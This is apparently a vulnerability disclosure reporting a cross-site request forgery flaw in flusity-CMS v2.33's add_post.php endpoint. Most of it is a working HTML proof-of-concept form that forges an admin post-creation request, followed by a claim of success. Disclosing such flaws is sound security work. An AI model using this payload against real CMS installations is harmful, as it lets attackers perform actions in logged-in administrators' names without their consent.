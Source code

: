 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/add_post.php

![1](https://github.com/bing-d/cms/assets/123786830/6bd91c6d-d556-4d85-b1c2-85306184cd6c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/add_post.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="create" />
      <input type="hidden" name="role" value="admin" />
      <input type="hidden" name="post&#95;menu" value="6" />
      <input type="hidden" name="post&#95;title" value="cs" />
      <input type="hidden" name="post&#95;content" value="cs" />
      <input type="hidden" name="lang&#95;post&#95;title" value="" />
      <input type="hidden" name="lang&#95;post&#95;content" value="" />
      <input type="hidden" name="post&#95;tags" value="" />
      <input type="hidden" name="post&#95;status" value="draft" />
      <input type="hidden" name="post&#95;description" value="" />
      <input type="hidden" name="post&#95;keywords" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![2](https://github.com/bing-d/cms/assets/123786830/a0e1e116-f05c-49ef-9419-04befa449c4a)

Successed

![3](https://github.com/bing-d/cms/assets/123786830/6a0dc1a6-8c6a-484f-a890-56a4f58fc143)

